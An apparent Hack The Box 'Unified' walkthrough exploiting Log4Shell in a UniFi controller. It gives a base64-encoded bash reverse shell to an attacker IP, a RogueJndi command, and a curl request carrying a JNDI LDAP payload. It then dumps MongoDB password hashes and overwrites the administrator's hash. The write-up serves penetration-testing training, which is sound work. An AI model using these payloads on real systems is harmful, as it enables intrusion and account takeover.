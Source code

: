```yaml
---
layout: post
title: Unified
published: true
category: CTF
system: web
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: 
tags: Web,Databases,Injection,MongoDB,Java,,Default Credentials,Code Injection
---
```


After the initial Nmap scan we have 6 ports open

```
PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack
6789/tcp open  ibm-db2-admin syn-ack
8080/tcp open  http-proxy    syn-ack
8443/tcp open  https-alt     syn-ack
8843/tcp open  unknown       syn-ack
8880/tcp open  cddbp-alt     syn-ack
```

we also find a unifi login 6.4.54 https://unified.htb:8443/manage/account/login?redirect=%2Fmanage

I have exploited this version of unifi once before it had the Log4j CVE-2021-44228 vulnerability.

Following <a href="https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi">sprocket security's</a> guide

Starting by installing maven and compiling the rogue-jndi, which is a LDAP server for JNDI injection attacks.

Once the Jar is compiled we  need to make a command to deliver the reverse shell. we craft this and base64 encode it.

- `echo 'bash -c bash -i >&/dev/tcp/10.10.16.193/6985 0>&1' | base64`

then insert into our rogue-JNDI command

- `java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTkzLzY5ODUgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.16.193"`

Then to get a reverse shell we can use this cURL command

- `curl -i -s -k -X POST -H $'Host: 10.129.207.100:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.193:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.207.100:8443/manage/account/login'`

for whatever reason my curl request isnt working but capturing in burp and sending the payload through there gets us a reverse shell on 6985.

There is no python available on this machine to upgrade our shell but we can use `script /dev/null -c bash` to get the same effect.

Once we are inside the exploiters found that the MongoDB instance storing all of the application information is listening on localhost without authentication. That mean we can read from and make changed to the local MongoDB instance. we can extract password hashes, reset admin password, add a shadow admin. 

# Replacing admin password

Dump password hashes from local db. This command will dump a JSON array of users, privileges and password hashes.

- `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

```
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
```

create a new sha-512 pass `mkpasswd -m sha-512 password`

- `mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$12ZN9Uh2iuQRjoTM$jmc2jIzCTMPU.kFp7driwLcqqOh6rffa1zysWCai2WKy79JjMvpU/DmfRagkHeUZdlpmee6hP/wo.5.LialJw0"}})'`

we can then login and grab the root ssh password and get anything we need from the machine.